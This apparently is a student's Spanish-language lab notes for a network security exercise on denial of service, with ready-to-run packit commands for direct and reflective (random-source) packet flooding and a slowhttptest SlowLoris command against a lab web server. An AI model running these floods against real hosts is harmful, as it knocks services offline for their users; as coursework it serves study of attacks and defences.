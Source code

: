     -> DIRECT:
        Packit - Packet analysis and injection tool.
        Esta herramienta es útil ya que ,aparte de manipular y monitorizar tráfico IP,
          permite inyectar paquetes para poder realizar el denial of service.
          packit -t (protocolo que quieras) -c 0 -b 0 -i ens33 -d 10.11.49.97
           (podríamos especificar puertos e ips de origen)         
    
    ->REFLECTIVE: enviar mensaje a toda la red para que le envíen mensajes a una máquina específica y así se saturaría:
       packit -c 0 -b 0 -sR -d 10.11.49.97 -> así el source es random y a la máquina la podría estar atacando toda la red.
       -enviar paquetes a toda la red con destino .97 para que lo reenvien y saturar esa máquina.    
       
        
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
m) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. 
Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? 
¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?

-INSTALAR SERVIDOR APACHE EN LA MAQUINA ATACANTE.
   -apt-get install apache2
   -systemctl enable apache2
   -systemctl start apache2
 
-INSTALAR SLOWHTTPTEST:
   -apt-get install slowhttptest

SLOWHTTPTEST -> 3 tipos de ataque:
      
        slowhttptest [-H|B|R|X] [-g] [-a range start] [-b range limit]
                  [-c number of connections]
                  [-d all traffic directed through HTTP proxy at host:port]
                  [-e probe traffic directed through HTTP proxy at host:port]
                  [-f value of Content-type header] [-i interval in seconds]
                  [-k request multiply factor] [-l test duration in seconds]
                  [-m value of Accept header]
                  [-n slow read interval in seconds]
                  [-o output file path and/or name]
                  [-p timeout for probe connection in seconds]
                  [-r connection per second]
                  [-s value of Content-Length header] [-t HTTP verb]
                  [-u absolute URL] [-v output verbosity level]
                  [-w advertised window size range start]
                  [-x max length of follow up data]
                  [-y advertised window size range end]
                  [-z slow read from receive buffer in bytes]

     
     -H      Starts slowhttptest in SlowLoris mode, sending unfinished HTTP
             requests.
             
             ->slowhttptest -c 8000 -H -r 200 -w 512 -y 1024 -n 5 -k 3 -u http://10.11.49.97 -p 3 
